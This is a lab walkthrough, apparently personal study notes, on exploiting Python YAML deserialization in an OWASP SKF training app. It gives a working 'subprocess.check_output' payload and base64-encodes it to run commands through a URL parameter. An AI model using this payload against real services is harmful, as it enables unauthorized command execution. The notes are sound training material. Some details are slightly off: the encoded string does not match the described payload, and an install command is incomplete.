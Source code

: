 ```yaml
---
tags:
  - vulnerabilty
  - "#deserializationYAML"
  - python
---
```

# What is Des-YAML?


---

# Exploiting

![](../../Images/Pasted%20image%2020230906193315.png)

If you look at the URL you see something like that:

> http://localhost:5000/information/eWFtbDogVGhlIGluZm9ybWF0aW9uIHBhZ2UgaXMgc3RpbGwgdW5kZXIgY29uc3RydWN0aW9uLCB1cGRhdGVzIGNvbWluZyBzb29uIQ==

This is a string in base64

If we decode we can see this:

![](../../Images/Pasted%20image%2020230906193547.png)

Mmm, we can try to change the data:

````bash
echo -n "yaml: Hello my nickname is sergiky" | base64
````

You can put this information in the URL

And see this:

![](../../Images/Pasted%20image%2020230906193803.png)

You can see the source code in **DES.py** file

And we don't see any type of validation or sanitization

If there are not validation we can create a special structure that when is serialized and deserealized allow to execute commands  

In the page of [Peter Murphy](https://www.pkmurphy.com.au/isityaml/) have a sentence that we are going to use to try to inject command

````yaml
!!python/object/apply:subprocess.check_output ['ls']
````

We are going to introduce this in a file named data:

````bash
yaml: !!python/object/apply:subprocess.check_output ['id']
````

We represent this in base64

````bash
cat data | base64 -w 0;
````

`-w 0` --> To compact all in one line
`echo` --> If you see a hashtag you can put it, this is because there isn't a jump line

````bash
ZGF0YTogISFweXRob24vb2JqZWN0L2FwcGx5OnN1YnByb2Nlc3MuY2hlY2tfb3V0cHV0IFsnbHMnXQo=
````

Now put this base64 string in the URL and you have the **results**

![](../../Images/Pasted%20image%2020230906195927.png)


---

# Labs

[https://github.com/blabla1337/skf-labs/tree/master/python/DES-Yaml](https://github.com/blabla1337/skf-labs/tree/master/python/DES-Yaml)

You probably have problems with python2.7 and you're not going to see until execute the injection, you have another form that is using docker

## Using python

To execute this you have to use python2.7

````bash
python2.7 DES.py
````

If you have an error with the module yaml install them with pip:

````bash
pip2 pyyaml
````

## Using docker

> sudo docker pull blabla1337/owasp-skf-lab:des-yaml

and then

> sudo docker run -dit -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:des-yaml

